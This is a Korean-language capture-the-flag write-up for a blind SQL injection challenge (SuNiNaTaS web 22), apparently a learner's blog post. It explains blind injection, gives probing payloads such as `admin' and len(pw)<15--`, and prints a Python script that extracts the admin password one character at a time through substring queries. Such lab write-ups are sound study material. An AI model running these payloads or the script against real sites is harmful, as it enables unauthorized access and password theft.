

# [WEB] 22

### 초기화면

로그인 폼과 함께 메시지들이 있다.

이 문제는 블라인드sql인젝션이고 어떤 것들을 필터링하는가..


>#### [블라인드 SQL 인젝션](https://ko.wikipedia.org/wiki/SQL_%EC%82%BD%EC%9E%85#Blind_SQL_%EC%82%BD%EC%9E%85)
> -웹에서 SQL 삽입에 취약하나 데이터베이스 메시지가 공격자에게 보이지 않을 때 사용
>
>-평범한 SQL 삽입은 쿼리를 삽입하여 원하는 데이터를 한번에 얻어낼 수 있는 데에 비해 Blind SQL 삽입은 참과 거짓, 쿼리가 참일때와 거짓일 때의 서버의 반응 만으로 데이터를 얻어냄. 


---
### 풀이

페이지 소스코드에는 특별한 코드는 없고 힌트를 보면 id가 guest는 비번도 guest.

그리고 찾아야 하는 것은 admin의 pw


일단 id와 pw를 무작위로 입력해보면 "False"라는 메시지가 출력됨을 알 수 있다.


guest로 로그인을 하면 "OK"와 함께 id가 출력됨을 알 수 있다.

id에 주석문 처리 쿼리를 넘기면 잘 된다..

사실 #에 경우 되질 않는다. 이미 라이트업을 다 참조해서 실습하는 것이라 잘 되지만 실제로 공격시에는 이 페이지의 데이터베이스가 무엇인지를 여러 쿼리 시도를 통해 파악해야한다. 

이제 패스워드의 글자수를 파악해야 한다.


`admin' and len(pw)<15--` 이런 식으로 참이 되는 쿼리문을 찾아내서 범위를 좁혀나간다. 11보다 작지만 10보단 작지 않다는 범위를 찾아낼 수 있고 패스워드 길이가 10인 것을 파악했다.

여기서는 필터링 리스트를 일부 알려줬기에 and를 바로 활용했지만 and까지 필터링 했을 경우등을 감안해서 실제 공격시 다양한 패턴의 쿼리를 보내봐야 한다..len()의 경우도 DB에 따라 length()일 수도 있다.

10글자임을 알았으니 한글자씩 맞나 틀리나를 확인해야 한다. 오래 걸리기에 파이썬을 활용해서 자동화하여 알아낸다.

```python
# -*- coding: utf-8 -*- 
import requests 
# url
url = "http://suninatas.com/challenge/web22/web22.asp"
 
cookie = {"ASPSESSIONIDCSSCCCBB" : "KPFDBEICFONODJOEKNGCGIDL"}
wordlist = "abcdefghijklmnop1234567890ABCDEFGHIJKLMNOP<>?!@#$%^&*()_+"
result  = ""
 
 
print("써니스타스 22번")
print("블라인드 인젝션을 시작합니다.")
 
for i in range(0, 10):
    for k in range(0, len(wordlist)):
        query = "admin'and(substring(pw," + str(i+1) + ",1)='" + wordlist[k] + "')--"
        response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
        
        if "OK" in response.text:
            print("[+]" + str(i+1) + "번째 비밀번호는 " + wordlist[k] + "입니다.")
            result += wordlist[k]
            break
 
print("[!]" + " 최종 비밀번호는 " + result + "입니다.")


##출처: https://penek.tistory.com/58 [꿈꾸는자칭 짱짱햌커.]
```
위의 출처에서 코드를 받아와서 사용했다. 

파이썬의 requests모듈을 이용해서 GET request를 보내고 그에 대한 response에서 결과가 참이면 OK가 나타남을 활용해서 패스워트를 알아낸다.

---


소스코드를 실행시키면 비밀번호 획득!

---